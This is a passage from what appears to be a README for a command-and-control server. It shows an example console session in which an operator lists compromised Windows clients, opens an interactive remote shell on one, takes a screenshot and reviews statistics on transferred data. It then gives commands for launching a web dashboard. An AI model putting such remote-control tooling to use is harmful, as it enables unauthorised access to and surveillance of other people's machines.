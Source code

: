 ```

🔧 SYSTEM:
  help                   - Show this help
  exit                   - Shutdown server gracefully
```

#### Example Console Session
```
C2C> list
┌────┬─────────────────┬──────────────┬──────────┬──────────────┐
│ ID │ IP Address      │ Hostname     │ OS       │ Last Seen    │
├────┼─────────────────┼──────────────┼──────────┼──────────────┤
│ 1  │ 192.168.1.101  │ WORKSTATION1 │ Win10    │ 2 mins ago   │
│ 2  │ 192.168.1.102  │ LAPTOP-USER  │ Win11    │ 5 mins ago   │
│ 3  │ 10.0.0.50      │ SERVER-01    │ Win2019  │ 1 min ago    │
└────┴─────────────────┴──────────────┴──────────┴──────────────┘

C2C> select 1
Selected client: WORKSTATION1 (192.168.1.101)

C2C> shell 1
Entering interactive shell with WORKSTATION1...
Press Ctrl+C to exit shell mode.

WORKSTATION1> dir
Volume in drive C has no label.
Directory of C:\Users\user

05/29/2025  10:30 AM    <DIR>          Desktop
05/29/2025  10:30 AM    <DIR>          Documents
...

WORKSTATION1> exit
Exiting shell mode.

C2C> screenshot 1
Screenshot saved to: screenshots/workstation1_20250529_103245.png

C2C> stats
📊 Server Statistics:
- Connected clients: 3
- Total sessions: 15
- Data transferred: 2.5 GB
- Uptime: 4h 32m
- Success rate: 98.5%
```

### 🌐 Web Dashboard

#### Accessing Web Interface
```powershell
# Start web interface
python gui/web_interface.py

# Access via browser
http://localhost:8080
```
